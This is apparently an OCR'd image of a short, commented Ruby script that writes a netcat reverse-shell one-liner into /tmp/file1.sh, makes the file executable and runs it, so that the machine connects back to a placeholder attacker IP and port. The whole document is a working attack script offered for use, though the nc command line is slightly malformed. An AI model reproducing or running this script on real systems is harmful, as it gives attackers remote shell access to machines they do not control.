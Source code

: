 #!/usr/bin/env ruby

file1 = File.new("/tmp/file1.sh", "w")		# this is creating a file in the '/tmp/' folder and naming it file1.sh
file1.chmod( 0755 )					# we are changing the file permissions
File.write("/tmp/file1.sh", "#!/bin/bash\nnc -nv <your ip addr><port of your choosing> 9001 -e /bin/bash")		# we are now writing to the file we created. this happens to be a one liner for a reverse_shell using bash
exec("bash /tmp/file1.sh")		# we are using command subsitution with 'exec' then inside the perands and quotes we give it the command we want to run. in this case we are telling it to execute file1 one using a bash shell.



# SUMMARY

# if net cat is present on the machine executing this code, it should call us back at 'your ip address' 
